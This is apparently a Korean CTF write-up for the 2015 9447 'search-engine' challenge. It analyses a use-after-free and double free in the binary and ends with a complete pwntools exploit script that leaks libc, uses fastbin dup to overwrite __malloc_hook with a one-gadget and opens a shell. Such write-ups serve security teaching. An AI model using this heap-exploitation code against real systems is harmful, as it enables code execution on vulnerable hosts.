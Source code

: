```yaml
---
layout: post
title: "[2015 9447 ctf] search-engine 풀이"
date: 2018-09-12 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### Ever wanted to search through real life? Well this won't help, but it will let you search strings.
### Find it at search-engine-qgidg858.9447.plumbing port 9447.
### [search](https://github.com/ctfs/write-ups-2015/raw/master/9447-ctf-2015/exploitation/search-engine/search-bf61fbb8fa7212c814b2607a81a84adf)

[how2heap](https://github.com/shellphish/how2heap)의 `fastbin dup into stack` 문제에요.

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
[file](/img/2015_9447-ctf/search-engine/01.png)
{: refdef}

### `func_search`

1. 검색할 문자열의 길이와 문자열을 입력

2. 전체 문자열이 존재하는지 검사

3. 부분 문자열의 길이와 문자열을 입력받은 값과 비교

4. 다음 구조체가 없을 때 까지 계속 검사

5. 일치하는 문자열이 있으면 전체 문자열을 전체 문자열의 길이만큼 출력하고 `free`할 지 선택

6. `free`를 하면 전체 문자열을 그 길이만큼 `\x00`으로 초기화하고 전체 문자열만 `free`

### `func_index`

1. 등록할 문자열의 길이와 문자열을 입력

2. 문자열의 띄어쓰기마다 구조체를 생성

### 구조체

```
[prev_size][chunk_size]
[*부분 문자열][부분 문자열의 길이]
[*전체 문자열][전체 문자열의 길이]
[*다음 구조체]
```

- - -
# 0x01. 취약점 분석

이 문제에 취약점은 문자열 검색 후에 `Delete`로 문자열은 `free`해주는데 구조체는 그대로인 거에요.

문자열을 초기화하고 `free`하지만 `free`를 하면 `fd`같은게 생기기 때문에 `func_search`의 2번에서 검사가 똑디 안돼요.

이걸 확인해 보려면 아래처럼 코드를 작성하면 돼요.

```python
func_index("AAAA B".ljust(0x68, "C"))
func_index("D"*0x68)

func_search("D"*0x68)
s.sendline("y")
func_search("AAAA")
s.sendline("y")

func_search("\x00")
```

{: refdef: style="text-align: center;"}
[func_index](/img/2015_9447-ctf/search-engine/02.png)
{: refdef}

우선 `func_index`를 두 번 하면 위처럼 돼요.

위에서부터 순서대로 `"D"*0x68`, `"C"*0x61`, `"B"`, `"AAAA"` 에요.

{: refdef: style="text-align: center;"}
[func_search](/img/2015_9447-ctf/search-engine/03.png)
{: refdef}

둘 다 `delete`한 상태에요.

구조체의 값은 그대로인데 `문자열 chunk`를 보면 `"D"*0x68` 대신 `\x00`만 들어있고 `"AAAA"` 부분엔 `"D"*0x68`의 주소가 아닌 다른 주소가 들어가 있어요.

왜 그런가 보니까 `func_search`함수를 보면 검색이 목적으로 `문자열 chunk`를 처음에 할당해줘요. 이 `chunk`는 함수가 끝날 때 `free` 하니까 `"D"*0x68`을 `delete`할 때 기존의 `문자열 chunk`가 `free`되고 검색을 위해 할당한 `문자열 chunk`가 `free`돼요.

쨋든 이걸로 `heap`영역의 주소도 알아낼 수 있고 `delete`를 또 해주면 `Double Free Bug`도 발생해요.

- - -
# 0x02. 공격 방법

`Double Free Bug`가 발생하니까 `fastbin`의 `fd`를 조작해서 `malloc_hook`쪽에 `chunk`를 할당받아서 `malloc_hook`에 `magic_gadget`을 넣을거에요.

그러려면 `libc_leak`을 해야하는데 그건 `unsorted_bin`을 사용할 거에요. 위 방법이랑 똑같이 하면 `bk` 부분에서 `libc_leak`을 할 수 있어요.

`fastbin`을 사용할 땐 순서를 신경써야 하는데 전 단순하게 `0x70 chunk`를 세 개 할당받고 순서대로 `free`해준 다음 두 번째 `chunk`를 다시 `free`해줬어요.

`0x70 chunk`를 사용하는 이유는 `malloc_hook` 쪽에는 라이브러리의 주소들이 적혀있는데 이 값이 `0x7f~~~`로 생겨서에요. `0x7f`를 `fastbin`의 `size`로 착각하게끔 주소를 바꿔주면 `fastbin`인 줄 알고 그쪽으로 `chunk`를 할당해줘요.

1. `unsorted bin`을 이용해 `libc_leak` (`main_arena+88`)

2. `0x70 chunk`를 `Double Free` (이 단계가 끝나면 `head` - `2` - `3` - `2` - `1` - `tail`)

3. `malloc_hook - 0x13` 주소가 `fd`에 들어가게끔 `0x70 chunk` 할당 (`head` - `3` - `2` - `malloc_hook - 0x13` - `tail`)

4. 두 번 더 `0x70 chunk`를 할당 (`head` - `malloc_hook - 0x13` - `tail`)

5. `malloc_hook`에 `magic_gadget`이 들어가끔 `0x70 chunk` 할당

- - -
# 0x03. 익스플로잇

```python
rom pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "search-engine-qgidg858.9447.plumbing"
PORT = 4444
#PORT = 9447

s = remote(HOST, PORT)
pause()

elf = ELF("./search-engine")
libc = ELF("./libc.so.6")

malloc_hook_off = 0x3C4B10
leak_off = 0x3c4b78
one_off = 0xf02a4

def func_search(content):
    s.sendline("1")

    s.recvuntil("size:\n")
    s.sendline(str(len(content)))

    s.recvuntil("word:\n")
    s.sendline(content)

def func_index(content):
    s.sendline("2")

    s.recvuntil("size:\n")
    s.sendline(str(len(content)))

    s.recvuntil("sentence:\n")
    s.sendline(content)

# libc_leak
func_index(("1"*0x10 + " 2 ").ljust(0x118, "3"))
func_index("4 ".ljust(0x118, "5"))

func_search("4")
s.sendline("y")
func_search("1"*0x10)
s.sendline("y")

func_search("\x00")
s.recvuntil("Found 280: ")
s.sendline("n")
s.recv(8)
libc_leak = u64(s.recvuntil("\x00").ljust(8, "\x00"))
real_base = libc_leak - leak_off
real_malloc_hook = real_base + malloc_hook_off
real_one = real_base + one_off

print
log.info("real_base : " + hex(real_base))
log.info("real_malloc_hook : " + hex(real_malloc_hook))
log.info("real_one : " + hex(real_one))
print

# Double Free Bug
func_index(("A"*0x10 + " BB ").ljust(0x68, "C"))
func_index(("D"*0x10 + " EEE ").ljust(0x68, "F"))
func_index(("G"*0x10 + " HHHH ").ljust(0x68, "I"))

func_search("BB")
s.sendline("y")
func_search("EEE")
s.sendline("y")
func_search("HHHH")
s.sendline("y")

func_search("\x00"*0x3)
s.sendline("y")

# exploit
payload = p64(real_malloc_hook - 0x13)
func_index(payload.ljust(0x68, "J"))
func_index("K"*0x68)
func_index("L"*0x68)

payload = "\x7f\x00\x00"
payload += p64(real_one)
func_index(payload.ljust(0x68, "\x00"))

s.interactive()
```

### 9447{this_w4S_heAPs_0f_FUn}

